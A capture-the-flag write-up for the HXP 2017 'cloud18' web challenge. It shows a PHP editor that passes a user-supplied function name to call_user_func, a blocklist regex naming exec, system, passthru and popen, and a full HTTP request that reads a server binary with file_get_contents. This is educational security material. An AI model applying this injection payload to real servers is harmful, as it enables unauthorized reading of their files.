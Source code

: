 ```yaml
---
layout: page
title: "HXP 2017 Writeup: cloud18"
---
```


> cloud18
> 
> We also did an online text editor! We also made it, like, super secure! We are so confident that we even give you the source code.
> 
> Download:
>
> [cloud18.zip]({{ site.baseurl }}/ctfs/hxp2017/cloud18/cloud18.zip)
>
> Connection:
> 
> http://35.198.105.111:5475/
> 
> 150 Basepoints + 100 Bonuspoints * min(1, 3/78 Solves) = 153 Points

As we explore the site and look at the source we can see that we can register as a user and log in; once logged in we can do some simple operations like changing text into upper case. The following line in ```editor.php``` looks suspicious:

```php
    $editedText = preg_replace_callback("/" . $_POST["regex"] . "/", function ($matches) {
        return call_user_func($_POST["method"], $matches[0]);
    }, $_POST["text"]);
```

Looks like we can specify a PHP function in the ```method``` field and have it executed. Looks pretty dangerous. Of course the author built in some protections:

```php
if (preg_match("/exec|system|passthru|`|proc_open|popen/", strtolower($_POST["method"].$_POST["text"])) != 0) {
    exit("Do you really think you could pass something to the command line? Functions like this are often disabled! Maybe have a look at the source?");
}
```

Black lists don't work very well in security. :smile: We can use a wide range of PHP functions here, for example the one that will embed a file in the generated page - ```file_get_contents```. Let's send a request with that method and try to get the executable that generates the flag:

```http
POST http://35.198.105.111:5475/editor.php HTTP/1.1
Proxy-Connection: keep-alive
Content-Length: 56
Cache-Control: max-age=0
Origin: http://35.198.105.111:5475
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://35.198.105.111:5475/editor.php
Accept-Language: en-gb
Cookie: PHPSESSID=n89duqqmdedqvlo0fjb7nqu6t4
Host: 35.198.105.111:5475

method=file_get_contents&regex=.*&text=/usr/bin/get_flag
```

Bingo!

```http
HTTP/1.1 200 OK
Date: Sun, 19 Nov 2017 00:16:28 GMT
Server: Apache/2.4.25 (Debian)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html>
<head>
    <title>Editor</title>
    <meta charset="UTF-8">
    <link rel="stylesheet" type="text/css" href="stylesheet.css">
</head>
<body>
<div id="page-wrap">
    <h1>cloud18 Editor - Your better development environment, in the cloud</h1>
    <p>Powerful Workspaces - All the freedom you'd expect!</p>
    <div id="menu">
        <a href='/logout.php'>logout</a>    </div>
    <div class='alert success'>.ELF.....
...
```

When we save the embedded file as a local binary and run it we get the flag:

```
$ ./get_flag
hxp{Th1s_w2sn't_so_h4rd_now_do_web_of_ages!!!Sorry_f0r_f1rst_sh1tty_upload}
```

